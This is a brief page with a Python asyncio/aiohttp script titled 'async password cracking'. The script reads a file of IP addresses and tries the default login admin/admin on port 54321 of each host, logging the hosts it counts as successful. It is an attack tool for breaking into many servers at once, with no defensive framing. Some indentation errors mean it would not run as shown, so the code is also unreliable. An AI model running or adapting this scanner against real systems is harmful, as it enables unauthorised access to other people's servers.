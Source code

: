 #### 异步爆密码

```
import asyncio
import aiohttp
import time


async def download(ip):
    params = {
    'username': 'admin',
    'password': 'admin'
    }
    url = 'http://' + ip + ':54321/login'
    #print(url)
    async with aiohttp.ClientSession() as session:
        async with session.post(url, params=params) as req:
            data = await req.text()
            #print(data)
            if '登录' in data:
                print(ip, '成功！')
                with open('ip1-ok.txt','a+') as fp:
                    fp.write(ip + '\n')
            else:
            print(ip,'错误！')
            #请求回来了，写入文件
            # with open(name,'wb') as fp:
            #     #读取内容是异步的，需要 await 挂起
            #     fp.write(await req.content.read())

async def main():
    # urls = [
    #     'https://pic.quanjing.com/c6/cx/QJ6880697447.jpg',
    #     'https://pic.quanjing.com/3g/lv/QJ6594284520.jpg',
    #     'https://pic.quanjing.com/ng/wd/QJ8166536175.jpg',
    #     'https://pic.quanjing.com/hj/jj/QJ6802044841.jpg',
    #     'https://pic.quanjing.com/tn/6t/QJ9127562743.jpg',
    #     'https://pic.quanjing.com/39/uc/QJ7108531848.jpg',
    # ]

    tasks = []
    for item in open('./ip.txt', 'r'):
        item = item.split('|')
        ip = item[0]
        # print(url)
        country = item[1].replace('\n', '')
        d = asyncio.create_task(download(ip))
        tasks.append(d)

await asyncio.wait(tasks)

if __name__ == '__main__':
    t1 = time.time()
    #asyncio.run(main()) 会报错
    loop = asyncio.get_event_loop()
    loop.run_until_complete(main())

    t2 = time.time()
    print('所需时间：', t2 - t1)
```
